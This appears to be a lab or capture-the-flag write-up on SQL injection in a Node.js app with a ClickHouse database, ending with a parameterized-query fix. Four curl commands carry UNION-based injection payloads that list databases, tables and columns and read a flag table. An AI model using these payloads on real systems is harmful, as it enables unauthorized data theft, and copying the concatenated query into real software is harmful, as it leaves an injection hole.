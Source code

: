# sqli101 - part 3

## Vulnerability
Unescaped user inputs used in the following SQL query.
```js
db.testQuery("SELECT username\nFROM user\nWHERE username LIKE '%" + search + "%'")
```

## Exploitation
We can list the databases one by one using:
```bash
curl --request POST \
  --url http://localhost:80/user_lookup \
  --header 'Content-Type: application/json' \
  --data '{
  "search": "'\'' AND 1=2 UNION ALL SELECT distinct database FROM system.tables LIMIT 1 OFFSET 1 UNION ALL SELECT '\''1'\'' WHERE '\''1'\''='\''"
}'
```

We can find the table flag using:
```bash
curl --request POST \
  --url http://localhost:80/user_lookup \
  --header 'Content-Type: application/json' \
  --data '{
  "search": "'\'' AND 1=2 UNION ALL SELECT name FROM system.tables WHERE database='\''default'\'' LIMIT 1 OFFSET 0 UNION ALL SELECT '\''1'\'' WHERE '\''1'\''='\''"
}'
```

We can find the column flag in the table flag using:
```bash
curl --request POST \
  --url http://localhost:80/user_lookup \
  --header 'Content-Type: application/json' \
  --data '{
  "search": "'\'' AND 1=2 UNION ALL SELECT name FROM system.columns WHERE database='\''default'\'' AND table='\''flag'\'' LIMIT 1 OFFSET 0 UNION ALL SELECT '\''1'\'' WHERE '\''1'\''='\''"
}'
```

And finally read the flag by querying the table and column found:
```bash
curl --request POST \
  --url http://localhost:80/user_lookup \
  --header 'Content-Type: application/json' \
  --data '{
  "search": "'\'' AND 1=2 UNION ALL SELECT flag FROM default.flag LIMIT 1 OFFSET 0 UNION ALL SELECT '\''1'\'' WHERE '\''1'\''='\''"
}'
```

## Fix
User inputs should be validated (can use a regex to restrict to a subset of ascii characters).
User inputs can also be escaped.

It is also possible to use query parameterized queries. (cf [ClickHouse documentation](https://clickhouse.com/docs/en/interfaces/cli#cli-queries-with-parameters)).
Implementing that solution changes two files, `routes/index.js` and `database.js`

```js
db.testQuery("SELECT username\nFROM user\nWHERE username LIKE '%{search:String}%'", {'search': search})

async testQuery(query, parameters) {
    return this.clickhouse.query(query, {'params': parameters}).toPromise();
}
```
